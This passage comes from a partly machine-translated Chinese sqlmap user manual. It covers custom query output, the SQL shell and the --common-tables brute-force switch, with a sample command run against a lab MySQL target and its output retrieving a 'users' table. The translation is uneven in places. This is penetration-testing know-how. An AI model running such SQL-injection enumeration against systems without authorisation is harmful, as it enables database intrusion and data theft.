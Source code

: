 ```
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar':    'foo, bar'
```

如您所见，sqlmap将提供的查询拆分为两个不同的 `SELECT` statements then retrieves the output for each separate query. 

如果提供的查询是一个 `SELECT`语句并包含一个`FROM`子句，sqlmap将询问这样的语句是否可以返回多个条目。在这种情况下，该工具知道如何正确地解压查询，以计数可能的条目的数量并检索它的输出，每个条目的条目。

SQL shell选项允许您交互式地运行自己的SQL语句，就像连接到数据库管理系统的SQL控制台一样。这个功能也提供了标签完成和历史支持。
破解

### 暴力

这些开关可以用来运行暴力检查。

### 暴力表名称

开关: `--common-tables`

有些情况下，开关`--tables`不能用于检索数据库的表名。这些案件通常属于以下类别之一:

* 数据库管理系统是MySQL **< 5.0** ，在这里不提供 `information_schema`。
* 数据库管理系统是Microsoft Access，系统表 `MSysObjects` 是不可读的 - 默认设置。
* 会话用户不具有对存储数据库方案的系统表的权限。

如果前两个案例中的任何一个应用，并且您提供了开关 `--tables`，sqlmap将提示您一个问题
回到这个技巧。这两种情况中的任何一个都适用于您的情况，sqlmap可能仍然可以识别一些现有的表，如果您提供了开关 `--common-tables`。sqlmap将执行蛮力攻击，以检测DBMS中常见表的存在。

常用表名的列表是 `txt/common-tables.txt` 。你可以随意编辑它。

针对MySQL 4.1目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --commo\
n-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:    '4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/tx
t/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```
